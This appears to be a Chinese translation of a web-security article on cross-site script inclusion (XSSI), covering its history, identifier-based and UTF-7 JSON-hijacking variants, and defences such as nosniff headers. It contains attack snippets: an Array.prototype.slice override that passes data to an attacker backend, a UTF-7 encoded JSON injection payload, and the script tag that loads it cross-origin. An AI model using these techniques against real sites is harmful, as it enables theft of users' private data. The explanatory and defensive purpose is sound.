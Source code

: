 

```
Array.prototype.slice = function()`{`
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this);
`}`;
```

安全调查员Sebastian Lekies刚刚更新了他的列表。

<br>

**非脚本的xssi**

Takeshi Terada 在他的论文Identifier based XSSI attacks中描述了另一种类型的xssi,通过在脚本标签中包含CSV文件作为源，使用数据作为变量和函数名称，能够跨源地泄露非脚本文件。

第一起公开描述xssi的文档是在2006年。 Jeremiah Grossman的博客 Advanced Web Attack Techniques using GMail 描述了一个xssi，可能重写array的构造函数可以读取到所有google帐号的地址。

在2007年， Joe Walker出版了JSON is not as safe as people think it is 。 他使用了同样的手段来窃取一个array内的json信息。

也有一些其他相关的攻击是由将utf-7编码的内容注入到json中以逃避json格式来进行的。是由Gareth Heyes, Hackvertor的作者， 在他的博客JSON Hijacking 在2011年提出的。在快速测试中，这仍然可能出现了ie和edge中，但是firefox或者chrome并无此问题。

JSON with UTF-7:

```
[`{`'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'`}`]
```

在攻击者的页面包含json:

```
&lt;script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"&gt;&lt;/script&gt;
```



**XSSI的防护**

开发者永远也不要把敏感数据放在javascript文件中， 也不要放在jsonp中。这就已经可以阻止1-3这三大类型的大部分攻击。类型4的漏洞问题通常通过浏览器一方来修复。无论如何，将用户信息保存到json文件然后读取的行为应该被禁止。

Takeshi Terada论文中描述的最大的bug被修复了。然而总是可能再一次发现相似的bug。至少这可以通过告诉浏览器不要再猜测content-type来阻止一部分。一些浏览器可以接受尚未标准化的http响应头X-Content-Type-Option:nosniff来做这些。一个正确的Content-Type对于减少xssi的可能性也有帮助。

<br>

**参考链接**

[http://bit.ly/1PmX4EX](http://bit.ly/1PmX4EX)

[http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-it-is/](http://incompleteness.me/blog/2007/03/05/json-is-not-as-safe-as-people-think-it-is/)

[http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html](http://jeremiahgrossman.blogspot.ch/2006/01/advanced-web-attack-techniques-using.html)

[http://sebastian-lekies.de/leak/](http://sebastian-lekies.de/leak/)
